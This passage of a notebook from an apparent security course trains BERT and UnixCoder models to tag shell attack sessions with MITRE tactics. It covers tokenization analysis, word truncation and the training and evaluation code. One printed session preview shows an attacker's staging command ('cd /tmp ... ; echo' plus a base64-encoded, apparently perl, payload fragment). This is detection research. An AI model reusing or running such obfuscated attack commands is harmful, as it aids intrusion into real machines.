

In [51]:
# --- Plot: Original vs Truncated Tokens & ECDF ---
# Tokenizziamo con il parametro truncation per simulare l'effetto del max_length
MAX_LENGTH = 512
bert_tokenized_trunc_512 = bert_tokenizer(train_sentences, truncation=True, max_length=MAX_LENGTH)
unix_tokenized_trunc_512 = unixcoder_tokenizer(train_sentences, truncation=True, max_length=MAX_LENGTH)

bert_trunc_len = [len(ids) for ids in bert_tokenized_trunc_512['input_ids']]
unix_trunc_len = [len(ids) for ids in unix_tokenized_trunc_512['input_ids']]

fig, axs = plt.subplots(2, 2, figsize=(16, 12))

# 1. ECDF per BERT
lengths_bert, probs_bert = get_ecdf(bert_tokens_per_session)
axs[0, 0].scatter(lengths_bert, probs_bert, color='#2E86C1', s=20, alpha=0.7)
axs[0, 0].axvline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=2, label='Max Context (512)')
axs[0, 0].set_title('ECDF of Token Counts (BERT)')
axs[0, 0].set_xlabel('Number of Tokens (log scale)')
axs[0, 0].set_ylabel('ECDF')
axs[0, 0].set_xscale('log')
axs[0, 0].grid(True, linestyle='--', alpha=0.5)
axs[0, 0].legend()

# 2. ECDF per UnixCoder
lengths_unix, probs_unix = get_ecdf(unix_tokens_per_session)
axs[0, 1].scatter(lengths_unix, probs_unix, color='#27AE60', s=20, alpha=0.7)
axs[0, 1].axvline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=2, label='Max Context (512)')
axs[0, 1].set_title('ECDF of Token Counts (UnixCoder)')
axs[0, 1].set_xlabel('Number of Tokens (log scale)')
axs[0, 1].set_ylabel('ECDF')
axs[0, 1].set_xscale('log')
axs[0, 1].grid(True, linestyle='--', alpha=0.5)
axs[0, 1].legend()

# 3. Original vs Truncated (BERT)
axs[1, 0].scatter(bert_tokens_per_session, bert_trunc_len, color='#2E86C1', s=30, alpha=0.6, edgecolors='k')
axs[1, 0].axhline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=2, label='Max Context (512)')
axs[1, 0].set_title('Original vs Truncated Tokens (BERT)')
axs[1, 0].set_xlabel('Original Tokens (log scale)')
axs[1, 0].set_ylabel('Truncated Tokens')
axs[1, 0].set_xscale('log')
axs[1, 0].grid(True, linestyle='--', alpha=0.5)
axs[1, 0].legend()

# 4. Original vs Truncated (UnixCoder)
axs[1, 1].scatter(unix_tokens_per_session, unix_trunc_len, color='#27AE60', s=30, alpha=0.6, edgecolors='k')
axs[1, 1].axhline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=2, label='Max Context (512)')
axs[1, 1].set_title('Original vs Truncated Tokens (UnixCoder)')
axs[1, 1].set_xlabel('Original Tokens (log scale)')
axs[1, 1].set_ylabel('Truncated Tokens')
axs[1, 1].set_xscale('log')
axs[1, 1].grid(True, linestyle='--', alpha=0.5)
axs[1, 1].legend()

fig.suptitle('Tokenization Distributions and Truncation Analysis', fontsize=16, y=1.02)
plt.tight_layout()
save_plot(fig, 'task2_extra_plots', path=save_dir)
plt.show()


In [52]:
# --- Analyze the longest session ---
max_bert_idx = np.argmax(bert_tokens_per_session)
max_unix_idx = np.argmax(unix_tokens_per_session)

print(f"Longest session (by BERT tokenization):")
print(f"  Index: {max_bert_idx}")
print(f"  BERT tokens: {bert_tokens_per_session[max_bert_idx]}")
print(f"  UnixCoder tokens: {unix_tokens_per_session[max_bert_idx]}")
print(f"  Number of words: {len(train_df.iloc[max_bert_idx]['session'].split())}")
print(f"\n  Session preview (first 500 chars):")
print(f"  {train_df.iloc[max_bert_idx]['session'][:500]}...")

# Look at individual word lengths
max_session_words = train_df.iloc[max_bert_idx]['session'].split()
word_lengths = [len(w) for w in max_session_words]
print(f"\n  Word length statistics in this session:")
print(f"    Max word length: {max(word_lengths)}")
print(f"    Words > 30 chars: {sum(1 for l in word_lengths if l > 30)}")

Longest session (by BERT tokenization):
  Index: 14
  BERT tokens: 1889
  UnixCoder tokens: 28920
  Number of words: 134

  Session preview (first 500 chars):
  cd /tmp || /var/tmp || /dev/shm ; echo ZXZhbCB1bnBhY2sgdT0+cXtfIkZVWSgiMVA8Rl1DOTctUztSYF0oIj1SPFdFTjhSPFsiQEhEPFY1Uj1GRUQ7VyhdKVMkVC1CWFEuIzROLDM8UStDKFItUjxAPTZZTDk3LVMoIjFTXzk3KVY6NjFPPENMKjs3REApJyFPPEcxQS8yPFQtIyxHLlBJTT4yIWA4ViVOODZFUy8yQEIoVyFQKEJEWyJGVVkoJCFBOSZVUy8yQEIwMihMKEVAQl8qM0wqOzdEQDAmJVU9JkBdKiIpTDtWLUE7JkFPPFcwQiozTCoiRlVZKCIxTDo2WUE8VV1NODdAXS1DTCo7N0RAKSctTDk2NVAvMyxbIkBJTT4yYERfO0ZFQzpSYF0oJj1FPSZZSThWTEgqM0wqOzdEQCkmRVI4VllBOzY0QC8yIUc5NzFOOjYtSyoiRFsiRlVZKCIxUjk2JUw7RiVNO...

  Word length statistics in this session:
    Max word length: 46860
    Words > 30 chars: 2


### 2.4 Optimization: Word Truncation

**Instructions:**
- Truncate individual words longer than **30 characters**.
- Re-tokenize and plot "Number of words" vs "Number of tokens" for both models.
- Report which tokenizer has the best ratio after optimization.
- Report how many sessions are still truncated.

**Q:** How does truncating long words affect the tokenization efficiency?

*Your analysis here*

In [53]:
# --- Function to truncate long words ---
MAX_WORD_LENGTH = 30

def truncate_long_words(sentence, max_len=MAX_WORD_LENGTH):
    """Truncate words longer than max_len characters."""
    words = sentence.split()
    truncated_words = [w[:max_len] if len(w) > max_len else w for w in words]
    return ' '.join(truncated_words)

# Apply truncation to training data
train_sentences_truncated = [truncate_long_words(s) for s in train_sentences]

# Example of truncation effect
print("Example of word truncation:")
long_word_example = "aGVsbG8gd29ybGQgdGhpcyBpcyBhIHZlcnkgbG9uZyBiYXNlNjQgc3RyaW5n"
print(f"  Original: {long_word_example}")
print(f"  Truncated: {long_word_example[:MAX_WORD_LENGTH]}")

Example of word truncation:
  Original: aGVsbG8gd29ybGQgdGhpcyBpcyBhIHZlcnkgbG9uZyBiYXNlNjQgc3RyaW5n
  Truncated: aGVsbG8gd29ybGQgdGhpcyBpcyBhIH


In [54]:
# --- Re-tokenize with truncated words ---
bert_tokenized_trunc = bert_tokenizer(train_sentences_truncated)
unix_tokenized_trunc = unixcoder_tokenizer(train_sentences_truncated)

bert_tokens_trunc = [len(ids) for ids in bert_tokenized_trunc['input_ids']]
unix_tokens_trunc = [len(ids) for ids in unix_tokenized_trunc['input_ids']]

# Calculate words per session
words_per_session = [len(s.split()) for s in train_sentences_truncated]

print("After word truncation (max 30 chars):")
print("=" * 60)
print(f"{'Metric':<30} | {'BERT':<12} | {'UnixCoder':<12}")
print("-" * 60)
print(f"{'Average tokens/session':<30} | {np.mean(bert_tokens_trunc):<12.2f} | {np.mean(unix_tokens_trunc):<12.2f}")
print(f"{'Max tokens/session':<30} | {max(bert_tokens_trunc):<12} | {max(unix_tokens_trunc):<12}")

# Count truncated sessions
bert_still_truncated = sum(1 for n in bert_tokens_trunc if n > MAX_LENGTH)
unix_still_truncated = sum(1 for n in unix_tokens_trunc if n > MAX_LENGTH)
print(f"\n{'Sessions still truncated':<30} | {bert_still_truncated:<12} | {unix_still_truncated:<12}")

After word truncation (max 30 chars):
Metric                         | BERT         | UnixCoder   
------------------------------------------------------------
Average tokens/session         | 128.38       | 110.52      
Max tokens/session             | 920          | 824         

Sessions still truncated       | 6            | 6           


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task2_plots/words_vs_tokens.png





Best token-to-word ratio: UnixCoder (2.77)


In [55]:
# --- Plot: Number of Words vs Number of Tokens ---
fig, axs = plt.subplots(1, 2, figsize=(14, 5))

# BERT plot
axs[0].scatter(words_per_session, bert_tokens_trunc, alpha=0.6,
               c='#2E86C1', edgecolors='black', linewidth=0.5, s=50)
axs[0].plot([0, max(words_per_session)], [0, max(words_per_session)],
            'r--', label='1:1 ratio', linewidth=2)
axs[0].axhline(y=512, color='firebrick', linestyle='-', linewidth=2, label='Max length (512)')
axs[0].set_xlabel('Number of Words', fontsize=12)
axs[0].set_ylabel('Number of Tokens', fontsize=12)
axs[0].set_title('BERT Tokenization', fontsize=14)
axs[0].legend()
axs[0].grid(True, linestyle='--', alpha=0.7)

# Calculate and display ratio
bert_ratio = np.mean(np.array(bert_tokens_trunc) / np.array(words_per_session))
axs[0].text(0.05, 0.95, f'Avg ratio: {bert_ratio:.2f}', transform=axs[0].transAxes,
            fontsize=11, verticalalignment='top', bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

# UnixCoder plot
axs[1].scatter(words_per_session, unix_tokens_trunc, alpha=0.6,
               c='#27AE60', edgecolors='black', linewidth=0.5, s=50)
axs[1].plot([0, max(words_per_session)], [0, max(words_per_session)],
            'r--', label='1:1 ratio', linewidth=2)
axs[1].axhline(y=512, color='firebrick', linestyle='-', linewidth=2, label='Max length (512)')
axs[1].set_xlabel('Number of Words', fontsize=12)
axs[1].set_ylabel('Number of Tokens', fontsize=12)
axs[1].set_title('UnixCoder Tokenization', fontsize=14)
axs[1].legend()
axs[1].grid(True, linestyle='--', alpha=0.7)

# Calculate and display ratio
unix_ratio = np.mean(np.array(unix_tokens_trunc) / np.array(words_per_session))
axs[1].text(0.05, 0.95, f'Avg ratio: {unix_ratio:.2f}', transform=axs[1].transAxes,
            fontsize=11, verticalalignment='top', bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

fig.suptitle('Words vs Tokens (After Word Truncation)', fontsize=14, y=1.02)
plt.tight_layout()
save_plot(fig, 'words_vs_tokens', path=save_dir)
plt.show()

print(f"\nBest token-to-word ratio: {'UnixCoder' if unix_ratio < bert_ratio else 'BERT'} ({min(bert_ratio, unix_ratio):.2f})")

## Task 3 — Model Training

Fine-tune models for Token Classification (classifying each token into a MITRE Tactic).

In [56]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task3_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Prepare datasets with word truncation ---
def prepare_dataset(df, max_word_len=30):
    """Prepare dataset with truncated words."""
    data = []
    for _, row in df.iterrows():
        words = row['session'].split()
        tags = row['label']
        # Truncate long words
        truncated_words = [w[:max_word_len] if len(w) > max_word_len else w for w in words]
        data.append({
            'session': ' '.join(truncated_words),
            'words': truncated_words,
            'label': tags
        })
    return pd.DataFrame(data)

train_df_prepared = prepare_dataset(train_df)
test_df_prepared = prepare_dataset(test_df)

# Create validation split
train_df_final, val_df_final = train_test_split(train_df_prepared, test_size=0.2, random_state=42)

print(f"Training set: {len(train_df_final)} sessions")
print(f"Validation set: {len(val_df_final)} sessions")
print(f"Test set: {len(test_df_prepared)} sessions")

Training set: 200 sessions
Validation set: 51 sessions
Test set: 108 sessions


### 3.0 Data Preparation for NER

Prepare the datasets for token classification using HuggingFace utilities.

In [57]:
# --- Create label mappings ---
unique_labels = list(set(tag for tags in train_df['label'] for tag in tags))
unique_labels = sorted(unique_labels)

id2label = {i: label for i, label in enumerate(unique_labels)}
label2id = {label: i for i, label in enumerate(unique_labels)}

print(f"Number of unique labels: {len(unique_labels)}")
print(f"Labels: {unique_labels}")
print(f"\nLabel to ID mapping: {label2id}")

Number of unique labels: 7
Labels: ['Defense Evasion', 'Discovery', 'Execution', 'Impact', 'Not Malicious Yet', 'Other', 'Persistence']

Label to ID mapping: {'Defense Evasion': 0, 'Discovery': 1, 'Execution': 2, 'Impact': 3, 'Not Malicious Yet': 4, 'Other': 5, 'Persistence': 6}


In [58]:
# --- Convert DataFrames to HuggingFace Datasets ---
def convert_to_hf_dataset(df):
    """Convert pandas DataFrame to HuggingFace Dataset."""
    return Dataset.from_pandas(df.reset_index(drop=True))

full_ds = DatasetDict({
    "train": convert_to_hf_dataset(train_df_final),
    "valid": convert_to_hf_dataset(val_df_final),
    "test": convert_to_hf_dataset(test_df_prepared)
})

print("Dataset structure:")
print(full_ds)

Dataset structure:
DatasetDict({
    train: Dataset({
        features: ['session', 'words', 'label'],
        num_rows: 200
    })
    valid: Dataset({
        features: ['session', 'words', 'label'],
        num_rows: 51
    })
    test: Dataset({
        features: ['session', 'words', 'label'],
        num_rows: 108
    })
})


In [59]:
# --- Convert tags to IDs ---
def convert_labels_to_ids(sample):
    """Convert tag strings to numeric IDs."""
    sample['label_id'] = [label2id[tag] for tag in sample['label']]
    return sample

encoded_dataset = full_ds.map(convert_labels_to_ids)
print("Example:")
print(f"  Labels: {encoded_dataset['train'][0]['label']}")
print(f"  Label IDs: {encoded_dataset['train'][0]['label_id']}")

Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

Example:
  Labels: ['Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution']
  Label IDs: [2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2]


In [60]:
# --- Tokenization and Label Alignment Functions ---
def align_labels_with_tokens(labels, word_ids, label_all_tokens=True):
    """
    Align token-level labels with word-level labels for tokenized text.

    Args:
        labels: Original word-level labels
        word_ids: List of word indices that each token corresponds to
        label_all_tokens:
            - True  -> assign the label to all sub-tokens of a word
            - False -> assign the label only to the first sub-token and mask the rest
    """
    aligned_labels = []
    previous_word_id = None

    for word_id in word_ids:
        if word_id is None:
            aligned_labels.append(-100)
            continue

        if word_id >= len(labels):
            aligned_labels.append(-100)
            previous_word_id = word_id
            continue

        is_first_subtoken = word_id != previous_word_id
        if is_first_subtoken or label_all_tokens:
            aligned_labels.append(labels[word_id])
        else:
            aligned_labels.append(-100)

        previous_word_id = word_id

    return aligned_labels

def create_tokenize_and_align_function(tokenizer, label_all_tokens=False):
    """Create a tokenization function for a specific tokenizer."""
    def tokenize_and_align_labels(samples):
        tokenized_inputs = tokenizer(
            samples["words"],
            truncation=True,
            max_length=512,
            is_split_into_words=True,
        )
        all_tags = samples["label_id"]
        new_labels = []
        for i, tags in enumerate(all_tags):
            word_ids = tokenized_inputs.word_ids(i)
            aligned_labels = align_labels_with_tokens(
                tags,
                word_ids,
                label_all_tokens=label_all_tokens,
            )
            new_labels.append(aligned_labels)
        tokenized_inputs["labels"] = new_labels
        return tokenized_inputs
    return tokenize_and_align_labels

In [61]:
# --- Helper functions for training and evaluation ---
def postprocess(predictions, labels, id2label):
    """Post-process model predictions and labels for evaluation."""
    predictions = predictions.detach().cpu().clone().numpy()
    labels = labels.detach().cpu().clone().numpy()
    # Remove ignored index (special tokens) and convert to labels
    true_labels = [[id2label[l] for l in label if l != -100] for label in labels]
    true_predictions = [
        [id2label[p] for (p, l) in zip(prediction, label) if l != -100]
        for prediction, label in zip(predictions, labels)
    ]
    return true_predictions, true_labels

def compute_metrics(full_predictions, full_labels):
    """Calculate token-level metrics for token classification."""
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    token_accuracy = accuracy_score(flat_labels, flat_predictions)
    token_precision = precision_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_recall = recall_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_f1 = f1_score(flat_labels, flat_predictions, average='macro', zero_division=0)

    return {
        "token_accuracy": token_accuracy,
        "token_precision": token_precision,
        "token_recall": token_recall,
        "token_f1": token_f1,
    }

def compute_per_class_f1(full_predictions, full_labels, unique_labels):
    """Calculate per-class F1 scores."""
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    per_class_f1 = f1_score(flat_labels, flat_predictions, labels=unique_labels, average=None, zero_division=0)
    return dict(zip(unique_labels, per_class_f1))

def compute_session_fidelity(full_predictions, full_labels):
    """
    Calculate average session fidelity.
    Fidelity = Correct Predictions / Total Tokens per session
    """
    fidelities = []
    for pred, label in zip(full_predictions, full_labels):
        if len(label) > 0:
            correct = sum(1 for p, l in zip(pred, label) if p == l)
            fidelity = correct / len(label)
            fidelities.append(fidelity)
    return np.mean(fidelities) if fidelities else 0.0

In [62]:
# --- Plotting helper functions ---
def plot_training_stats(title, training_losses, validation_losses=None, best_epoch=None, save_path=None):
    """Plot training and validation losses."""
    plt.style.use('seaborn-v0_8-paper')
    colors = {
        'training': '#2E86C1',
        'validation': '#27AE60',
        'best_epoch': '#E74C3C',
    }

    if validation_losses is not None:
        fig, (ax1, ax2) = plt.subplots(1, 2, figsize=(10, 4))
    else:
        fig, ax1 = plt.subplots(1, figsize=(5, 4))

    ax1.plot(training_losses, color=colors['training'], linewidth=2)
    ax1.set_title('Training Loss', fontsize=12, pad=10)
    ax1.set_ylabel('Loss', fontsize=10)
    ax1.set_xlabel('Epoch', fontsize=10)

    if validation_losses is not None:
        if best_epoch is not None:
            ax1.axvline(x=best_epoch, color=colors['best_epoch'], linestyle='--', alpha=0.8, label='Best Epoch')
        ax2.plot(validation_losses, color=colors['validation'], linewidth=2)
        if best_epoch is not None:
            ax2.axvline(x=best_epoch, color=colors['best_epoch'], linestyle='--', alpha=0.8, label='Best Epoch')
        ax2.set_title('Validation Loss', fontsize=12, pad=10)
        ax2.set_ylabel('Loss', fontsize=10)
        ax2.set_xlabel('Epoch', fontsize=10)
        axs = [ax1, ax2]
    else:
        axs = [ax1]

    for ax in axs:
        ax.grid(True, linestyle='--', alpha=0.7)
        ax.spines['top'].set_visible(False)
        ax.spines['right'].set_visible(False)
        if validation_losses is not None:
            ax.legend(fontsize=8)

    fig.suptitle(f'{title} - Training Progress', fontsize=14, y=1.02)
    plt.tight_layout()

    if save_path:
        save_plot(fig, f'{title.lower().replace(" ", "_")}_losses', path=save_path)
    plt.show()

def plot_per_class_f1(per_class_f1, title, save_path=None):
    """Plot per-class F1 scores as a barplot."""
    fig, ax = plt.subplots(figsize=(10, 5))

    labels = list(per_class_f1.keys())
    values = list(per_class_f1.values())

    bars = ax.bar(labels, values, color='#2E86C1', edgecolor='black', linewidth=1)

    # Add value labels
    for bar, val in zip(bars, values):
        ax.annotate(f'{val:.3f}', xy=(bar.get_x() + bar.get_width()/2, val),
                    xytext=(0, 3), textcoords="offset points", ha='center', va='bottom', fontsize=9)

    ax.set_xlabel('MITRE Tactic', fontsize=12)
    ax.set_ylabel('F1 Score', fontsize=12)
    ax.set_title(f'{title} - Per-Class F1 Score', fontsize=14)
    ax.set_ylim(0, 1.1)
    ax.grid(True, linestyle='--', alpha=0.7, axis='y')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    if save_path:
        save_plot(fig, f'{title.lower().replace(" ", "_")}_per_class_f1', path=save_path)
    plt.show()

def plot_confusion_matrix(full_predictions, full_labels, id2label, title, normalize=False, save_path=None):
    """Plot confusion matrix."""
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    labels_list = list(id2label.values())
    cm = confusion_matrix(flat_labels, flat_predictions, labels=labels_list)

    if normalize:
        cm = cm.astype('float') / cm.sum(axis=1, keepdims=True)
        fmt = '.2f'
    else:
        fmt = 'd'

    fig, ax = plt.subplots(figsize=(10, 8))
    sns.heatmap(cm, annot=True, fmt=fmt, cmap='Blues',
                xticklabels=labels_list, yticklabels=labels_list, ax=ax)
    ax.set_ylabel('True label', fontsize=12)
    ax.set_xlabel('Predicted label', fontsize=12)
    ax.set_title(f'{title} - {"Normalized " if normalize else ""}Confusion Matrix', fontsize=14)
    plt.xticks(rotation=45, ha='right')
    plt.yticks(rotation=0)
    plt.tight_layout()

    if save_path:
        suffix = '_normalized' if normalize else ''
        save_plot(fig, f'{title.lower().replace(" ", "_")}_confusion_matrix{suffix}', path=save_path)
    plt.show()

In [63]:
# --- Training function ---
def train_model(model, train_dataloader, eval_dataloader, optimizer, lr_scheduler,
                n_epochs, device, id2label, model_name="Model"):
    """
    Train a token classification model.

    Returns:
        best_model: Model with best validation loss
        train_losses: List of training losses per epoch
        val_losses: List of validation losses per epoch
        best_epoch: Epoch with best validation loss
        elapsed_time: Total training time in seconds
    """
    model = model.to(device)

    best_val_loss = np.inf
    best_epoch = 0
    best_model = deepcopy(model)

    train_losses = []
    val_losses = []

    num_training_steps = n_epochs * len(train_dataloader)
    progress_bar = tqdm(range(num_training_steps), desc=f"Training {model_name}")

    start_time = time.time()  # ← timing start

    for epoch in range(n_epochs):
        # --- Training ---
        model.train()
        train_loss = 0
        for batch in train_dataloader:
            batch = {key: value.to(device) for key, value in batch.items()}
            outputs = model(
                input_ids=batch["input_ids"],
                attention_mask=batch["attention_mask"],
                labels=batch["labels"]
            )
            loss = outputs.loss
            train_loss += loss.detach().cpu().clone().numpy()
            loss.backward()
            optimizer.step()
            lr_scheduler.step()
            optimizer.zero_grad()
            progress_bar.update(1)

        train_losses.append(train_loss / len(train_dataloader))

        # --- Validation ---
        model.eval()
        full_predictions, full_labels = [], []
        val_loss = 0

        for batch in eval_dataloader:
            batch = {key: value.to(device) for key, value in batch.items()}
            with torch.no_grad():
                outputs = model(**batch)
            val_loss += outputs.loss.detach().cpu().clone().numpy()
            predictions = outputs.logits.argmax(dim=-1)
            labels = batch["labels"]
            true_predictions, true_labels = postprocess(predictions, labels, id2label)
            full_predictions += true_predictions
            full_labels += true_labels

        val_loss = val_loss / len(eval_dataloader)
        val_losses.append(val_loss)

        metrics = compute_metrics(full_predictions, full_labels)
        print(f"Epoch {epoch}: acc={metrics['token_accuracy']:.4f}, f1={metrics['token_f1']:.4f}, val_loss={val_loss:.4f}")

        if val_loss <= best_val_loss:
            best_epoch = epoch
            best_val_loss = val_loss
            best_model = deepcopy(model)

    elapsed_time = time.time() - start_time  # ← timing end

    return best_model, train_losses, val_losses, best_epoch, elapsed_time

In [64]:
# --- Evaluation function ---
def evaluate_model(model, test_dataloader, device, id2label, unique_labels, model_name="Model"):
    """
    Evaluate a trained model on test data.

    Returns:
        Dictionary containing all metrics
    """
    model.eval()
    full_predictions, full_labels = [], []

    for batch in tqdm(test_dataloader, desc=f"Evaluating {model_name}"):
        batch = {key: value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels, id2label)
        full_predictions += true_predictions
        full_labels += true_labels

    # Compute metrics
    metrics = compute_metrics(full_predictions, full_labels)
    per_class_f1 = compute_per_class_f1(full_predictions, full_labels, unique_labels)
    session_fidelity = compute_session_fidelity(full_predictions, full_labels)

    print(f"\n{model_name} Test Results:")
    print("=" * 50)
    print(f"Token Accuracy:  {metrics['token_accuracy']*100:6.2f}%")
    print(f"Token Precision: {metrics['token_precision']*100:6.2f}%")
    print(f"Token Recall:    {metrics['token_recall']*100:6.2f}%")
    print(f"Token F1 (Macro): {metrics['token_f1']*100:6.2f}%")
    print(f"Session Fidelity: {session_fidelity*100:6.2f}%")

    return {
